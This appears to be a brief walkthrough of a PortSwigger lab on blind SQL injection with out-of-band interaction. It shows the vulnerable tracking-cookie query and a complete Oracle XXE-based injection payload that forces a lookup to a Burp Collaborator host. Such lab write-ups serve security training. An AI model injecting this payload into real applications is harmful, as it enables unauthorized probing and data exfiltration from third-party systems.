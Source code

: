 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fc896581-2e92-4aa9-b6be-eb2c2c0b5a6a)

## Solution:

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/e94c81f4-4419-40bc-ace2-f4ec3accc83a)

Query made -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'`

Request captured - Send this to repeater

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/5e7c52a1-6f6a-4b4b-80ee-2b40c0ffd800)

Then Open the burp collaborator client, copy one of the domain provided

For that the payload is

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--`
